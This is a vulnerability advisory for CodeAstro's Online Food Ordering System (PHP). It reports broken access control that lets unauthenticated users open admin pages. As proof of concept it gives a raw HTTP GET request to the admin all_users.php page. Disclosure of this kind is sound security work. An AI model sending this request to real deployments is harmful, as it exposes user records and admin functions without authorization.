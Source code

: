# Broken Access Control in Online Food Ordering System


## Vendor and Product information:
* **Vendor:** CodeAstro
* **Product:** Online Food Ordering System
* **Product URL:** https://codeastro.com/online-food-ordering-system-in-php-mysql-with-source-code/

## Description
The Online Food Ordering System application has a Broken Access Control vulnerability, enabling an unauthenticated attacker to access restricted admin pages. This security flaw could result in unauthorized actions, exposure of sensitive information, or potential disruption of the system's functionality.

## Proof of Concept
**HTTP Request Example**
``` http request
GET /OnlineFood-PHP/admin/all_users.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/OnlineFood-PHP/admin/update_users.php?user_upd=7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

## Screenshot
![image](https://github.com/user-attachments/assets/dabffc03-33ed-409c-ba96-cf606d41a220)



## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
